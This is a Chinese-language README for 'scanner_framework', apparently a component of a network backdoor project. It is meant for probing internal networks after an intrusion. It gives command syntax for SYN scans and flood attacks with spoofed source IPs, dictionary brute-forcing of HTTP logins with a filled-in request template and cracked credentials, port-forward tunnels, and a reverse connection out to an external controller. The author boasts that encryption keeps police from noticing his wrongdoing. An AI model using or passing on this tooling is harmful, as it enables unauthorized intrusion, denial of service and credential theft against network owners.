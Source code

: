 
scanner_framework

===

网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..    --  LCatro

***

###启动方式
scanner.exe 控制台启动<br/>
scanner.exe -bind [%port%] 绑定端口,远程访问<br/>
scanner.exe -recon %ip% [%port%] 反向连接,远程访问,默认是80 [WARNING! 记得先启动reverse_server ,不然scanner.exe 不能成功连接]<br/>

###使用方法
扫描当前网段存活的主机,并且自动搜集数据<br/>
using:arp<br/>
获取当前主机的网络信息<br/>
using:local<br/>
测试主机是否连通<br/>
using:ping %ip/host%<br/>
TCP SYN 扫描主机<br/>
using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]<br/>
洪水攻击主机<br/>
using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]<br/>
在线破解<br/>
using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]<br/>
路由跟踪<br/>
using:tracert %ip/host%<br/>
抓取页面<br/>
using:getpage %ip% [-PORT:%port%] [-PATH:%path%]<br/>
启动端口转发功能<br/>
using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]<br/>
显示帮助<br/>
using:help<br/>
退出<br/>
using:quit<br/>

###在线破解 crack
	在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
	###什么是表达式?
	表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
	
	本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
	
	crack 192.168.1.103 80
	
	然后会提示输入表达式
	
	input your crack express:
	
	输入数据包数据:
	POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
	Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
	Referer: http://192.168.1.103/api/analays.php<br/>
	Accept-Language: zh-CN<br/>
	User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
	Content-Type: application/x-www-form-urlencoded<br/>
	Accept-Encoding: gzip, deflate<br/>
	Host: 192.168.1.103<br/>
	Content-length: %length%<br/>
	Pragma: no-cache<br/>
	<br/>
	user=%username%&pass=%password%<br/>
	
	其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小<br/>[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
	
	input your check term:
	
	输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件
	Sucess
	
	now cracking!
	
	network crack - target:192.168.1.103:80
	username:root password:toor
	
	破解完成

###端口转发 route
	端口转发原理:
	![route_design](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)
	

##Other
===
#####reverse_server 是用来做反向连接用的服务端
#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..
